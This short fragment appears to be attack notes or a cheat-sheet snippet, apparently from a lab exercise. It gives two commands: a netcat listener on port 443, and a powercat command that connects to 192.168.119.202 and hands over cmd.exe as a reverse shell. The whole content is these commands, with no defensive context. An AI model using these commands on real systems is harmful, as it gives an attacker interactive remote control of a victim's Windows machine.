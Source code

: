 # 1) Spawn a listener to receive the reverse shell
```sh
LPORT=443
sudo nc -lnvp $LPORT
```

# 2) send reverse shell to remote host
```ps
powercat -c 192.168.119.202 -p 443 -e cmd.exe
```
